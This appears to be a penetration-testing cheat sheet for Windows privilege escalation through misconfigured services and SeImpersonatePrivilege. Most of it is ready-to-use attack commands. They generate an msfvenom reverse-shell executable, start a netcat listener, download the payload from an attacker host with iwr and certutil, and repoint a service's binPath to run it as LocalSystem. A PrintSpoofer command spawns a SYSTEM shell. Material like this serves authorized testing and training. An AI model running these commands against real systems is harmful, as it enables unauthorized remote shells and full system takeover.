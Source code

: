 -> Exploitation - attacker
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > name <name_inside_the_path>.exe  
nc -nvlp <port>
```

-> Exploitation - windows
```powershell
iwr -uri <ip>/<service_eecutable_name> -Outfile <service_executable_name>
move <name_inside_the_path>.exe <service_path>  
```
```powershell
sc stop <service_name>
sc start <service_name>
```
or  
```powershell
shutdown /r
```

### binPath - Services [PrivEsc]
-> Detection
```powershell
. .\PowerUp.ps1
Get-ModifiableService -Verbose
```
or
```powershell
Get-ModifiableService -Verbose
wmic service get Name,State,PathName | findstr "Running" | findstr "Program"  
wmic service get Name,State,PathName | findstr "Program"  
icacls <pathname>  
//(F) and (i) (F)
accesschk.exe -wuvc <service_name>
//RW Everyone  
//  SERVICE_CHANGE_CONFIG
sc qc <service_name>
```

-> Exploitation - Windows [PrivEsc]
```powershell
certutil -urlcache -f http://10.9.1.137:803/ok.exe ok.exe  
sc config <name_ service> binPath="C:\Users\files\ok.exe" obj= LocalSystem  
sc stop <service_name>  
sc query <service_name>  
sc start <service_name>  
```

- https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite  

### SeImpersonatePrivilege
```powershell
PrintSpoofer64.exe -i -c cmd
```
- https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
